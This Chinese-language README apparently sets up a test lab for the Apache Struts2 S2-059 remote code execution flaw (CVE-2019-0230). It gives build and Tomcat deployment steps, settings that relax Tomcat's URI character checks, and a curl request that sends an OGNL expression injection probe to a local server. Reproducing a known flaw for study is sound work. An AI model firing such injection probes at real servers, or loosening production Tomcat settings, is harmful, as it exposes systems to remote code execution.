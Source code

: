 * 说明
S2-059 Apache Struts2 远程代码执行漏洞（CVE-2019-0230）的验证环境。使用的 Struts2 2.5.20。

* 环境搭建
依赖 ant 命令，请先安装。

搭建步骤：

1、 编译、打 war 包：

#+begin_example
  ant war
#+end_example

2、将 dist/test_S2-059.war 部署到 Tomcat 中。

*注意*：

1、Tomcat 8.x 以上版本限制了 URI 中出现的有效字符，因此在触发时可能会提示：

#+begin_example
  在请求目标中找到无效字符。有效字符在RFC 7230和RFC 3986中定义
#+end_example

解决方法：

1、使用 Tomcat 7；

2、Tomcat 8 可以在 conf/catalina.properties 中添加（如果不行，请网上查查，我没完整验证过）：

#+begin_example
  tomcat.util.http.parser.HttpParser.requestTargetAllow=|{}
#+end_example

3、Tomcat 9，修改 conf/server.xml 以下：

#+begin_src xml
  <Connector port="8080" protocol="HTTP/1.1"
             connectionTimeout="20000"
             redirectPort="8443" />
#+end_src

为：

#+begin_src xml
  <Connector port="8080" protocol="HTTP/1.1"
             connectionTimeout="20000"
             relaxedQueryChars="[]|{}^&#x5c;&#x60;&quot;&lt;&gt;"
             redirectPort="8443" />
#+end_src

* 漏洞测试：
#+begin_example
  curl -XPOST http://127.0.0.1:8080/test_S2-059/test_execute.action -d 'id=vul%25{245%2b5}'
#+end_example
